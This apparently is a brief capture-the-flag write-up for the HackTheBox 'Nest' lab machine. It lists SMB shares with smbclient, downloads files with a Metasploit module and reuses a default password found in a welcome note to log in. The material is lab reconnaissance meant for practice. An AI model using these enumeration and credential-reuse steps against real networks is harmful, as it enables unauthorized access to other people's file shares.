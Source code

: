 ### Listing the shares:
```
$ smbclient  -L //10.10.10.178
Enter WORKGROUP\root's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        Secure$         Disk      
        Users           Disk      
SMB1 disabled -- no workgroup available
```



### You can do the following to access the shares:
```
$ smbclient //10.10.10.178/Data
            or            /Users
            or            /C$
						or						/Shared
```

### to download the files use:
`msf > use auxiliary/admin/smb/download_file`

some interesting files contain the following:

#### file 01
```
We would like to extend a warm welcome to our newest member of staff, <FIRSTNAME> <SURNAME>

You will find your home folder in the following location:
\\HTB-NEST\Users\<USERNAME>

If you have any issues accessing specific services or workstations, please inform the
IT department and use the credentials below until all systems have been set up for you.

Username: TempUser
Password: welcome2019
```

#### file 02
```
<File filename="C:\windows\System32\drivers\etc\hosts"/>
<File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt"/>
<File filename="C:\Users\C.Smith\Desktop\todo.txt"/>
```


smbclient  //10.10.10.178/TempUsers -U TempUser
